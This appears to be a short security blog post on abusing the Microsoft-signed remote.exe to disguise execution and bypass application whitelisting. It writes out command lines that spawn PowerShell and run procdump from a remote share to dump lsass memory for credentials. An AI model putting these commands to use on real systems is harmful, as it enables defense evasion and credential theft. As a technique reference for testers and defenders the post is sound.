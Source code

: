 ```yaml
---
title: Execution and AWL Bypass Using LOLBin Remote.exe
date: "2021-01-07"
---
```


Masquerading execution behind the Microsoft signed binary remote.exe<!-- end -->.

If you're not familiar with the term LOLBins by now, you'd better catch up to speed because that's the trend for the foreseeable future. Briefly explained, "LOLBins" or "Living Off the Land Binaries" are non-malicious binaries that can be used in an unintended way to aid attackers in evading defenses. A more thorough explanation can be found <a href="https://blog.teamascend.com/lolbins">here</a>.

# Remote.exe

Remote.exe is a stand-alone executable that comes with the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/">debugging tools for Windows</a>. Microsoft's definition of remote.exe is as follows:

>The remote.exe utility is a versatile server/client tool that allows you to run command-line programs on remote computers.
>This utility has a large number of uses. For example, when you are developing software, you can compile code with the processor and resources of a remote computer while you perform other tasks on your computer.

It's a pretty impressive tool, let's use it for our purposes now.

# Using Remote.exe

### To execute a file or command:

    remote.exe /s "file.exe" anything

### Spawn PowerShell.exe:
    
    remote.exe /s "powershell.exe" d0x

![Powershell-Spawn-Cmd](./powershell-spawn-cmd.png)

![Powershell-Spawn](./powershell-spawn.png)

### Execute a single command:

    remote.exe /s "powerShell.exe -c whoami" mrd0x

![Whoami](./whoami.png)

### Execute a remote file:

    remote.exe /s "\\10.0.0.187\proc\procdump64.exe -ma lsass.exe lsass.dmp" anything

![Procdump](./procdump.png)

# Use Cases

* Masquerading execution under a Microsoft signed binary
* AWL Bypass